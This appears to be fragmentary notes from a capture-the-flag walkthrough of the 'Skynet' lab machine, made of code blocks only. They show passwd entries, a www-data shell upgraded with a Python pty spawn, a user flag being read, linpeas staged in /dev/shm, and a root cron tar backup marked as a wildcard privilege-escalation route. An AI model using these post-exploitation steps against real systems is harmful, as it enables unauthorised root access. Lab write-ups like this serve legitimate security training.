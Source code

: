 ```
postfix:x:113:121::/var/spool/postfix:/bin/false
mysql:x:114:123:MySQL Server,,,:/nonexistent:/bin/false
```


```www-data@skynet:/$ whoami
whoami
www-data
```

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

```bash
www-data@skynet:/home/milesdyson$ ls -lh
ls -lh
total 16K
drwxr-xr-x 2 root       root       4.0K Sep 17  2019 backups
drwx------ 3 milesdyson milesdyson 4.0K Sep 17  2019 mail
drwxr-xr-x 3 milesdyson milesdyson 4.0K Sep 17  2019 share
-rw-r--r-- 1 milesdyson milesdyson   33 Sep 17  2019 user.txt
www-data@skynet:/home/milesdyson$ cat user.txt	
cat user.txt
7ce5c2109a40f958099283600a9ae807
www-data@skynet:/home/milesdyson$
```


```bash
www-data@skynet:/home/milesdyson/backups$ cat backup.sh	
cat backup.sh
#!/bin/bash
cd /var/www/html
tar cf /home/milesdyson/backups/backup.tgz *
```


```bash
www-data@skynet:/dev/shm$ ls -lah
ls -lah
total 320K
drwxrwxrwt  2 root     root       60 Mar 23 08:58 .
drwxr-xr-x 17 root     root     3.6K Mar 23 07:44 ..
-rw-rw-rw-  1 www-data www-data 318K Mar 23 08:36 linpeas.sh

```

```linpeas.sh
old sudo version
cronjob executed by root using tar
```

```
tar wildcard expansion/exploit
```

```
https://www.hackingarticles.in/exploiting-wildcard-for-privilege-escalation/
```
